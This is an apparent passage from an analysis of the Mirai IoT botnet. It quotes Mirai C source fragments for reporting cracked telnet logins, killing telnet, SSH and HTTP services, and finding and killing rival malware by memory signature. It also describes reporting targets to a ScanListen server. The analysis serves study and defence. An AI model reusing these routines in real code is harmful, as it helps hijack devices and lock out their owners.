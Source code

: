 ```c
        }
        else if (consumed > 0)
        {
            char *tmp_str;
            int tmp_len;
    #ifdef DEBUG
            printf("[scanner] FD%d Found verified working telnet\n", conn->fd);
    #endif
            report_working(conn->dst_addr, conn->dst_port, conn->auth);
            close(conn->fd);
            conn->fd = -1;
            conn->state = SC_CLOSED;
        }
        break;
    }
```

Once access has been granted, Mirai launched several killer scripts meant to eradicate other worms and Trojans, as well as prohibiting remote connection attempts of the hijacked device.

It starts by closing all processes which use SSH, Telnet and HTTP:
```c
killer_kill_by_port(htons(23))  // Kill telnet service
killer_kill_by_port(htons(22))  // Kill SSH service
killer_kill_by_port(htons(80))  // Kill HTTP service
```

Then, it locates and eradicates other botnet processes from memory, by means of a technique known as **memory scraping**:

```c
#DEFINE TABLE_MEM_QBOT            // REPORT %S:%S
#DEFINE TABLE_MEM_QBOT2           // HTTPFLOOD
#DEFINE TABLE_MEM_QBOT3           // LOLNOGTFO
#DEFINE TABLE_MEM_UPX             // \X58\X4D\X4E\X4E\X43\X50\X46\X22
#DEFINE TABLE_MEM_ZOLLARD         // ZOLLARD
```

Finally, it kills the *Anime* software, a competing IoT-targeting malware:

```c
table_unlock_val(TABLE_KILLER_ANIME);
// If path contains ".anime" kill.
if (util_stristr(realpath, rp_len - 1, table_retrieve_val(TABLE_KILLER_ANIME, NULL)) != -1)
{
    unlink(realpath);
    kill(pid, 9);
}
table_lock_val(TABLE_KILLER_ANIME);
```

#### Coordination

Once a target has been found, the information related to it are passed to the **ScanListen** server, which holds record of all infected devices now included in the botnet.
